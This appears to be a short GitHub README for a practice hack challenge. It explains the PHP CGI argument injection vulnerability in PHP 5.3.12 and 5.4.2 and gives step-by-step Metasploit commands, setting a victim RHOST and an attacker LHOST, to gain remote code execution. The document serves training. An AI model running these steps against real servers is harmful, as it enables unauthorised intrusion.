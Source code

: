 # HackTheStack

This is simple hack challenge where you use the tool Metasploit to exploit a known vulnerability in a PHP server, with the version 5.3.12 and 5.4.2.
This exploit is also called PHP CGI arg injection, where the exploit takes advantage of -d flag to set the php.ini directives to achieve code execution. In short this leads to access to CGI binaries, and can run your code remotely.

Here's how you'd do it syntactically using metasploit.

1) Open the terminal in an environment that has Metasploit already installed. (E.g Kali Linux)
2) Type "msf" in the command line (without the double quotes)
3) Type use exploit/multi/http/php_cgi_arg_injection
4) Type SET RHOST <VICTIM_IP> where VICTIM_IP is what it sounds like
5) Type SET LHOST <ATTACKER_IP> where ATTACKER_IP is also what it sounds like
6) Type "run" (without the double quotes)
7) Don't be nasty
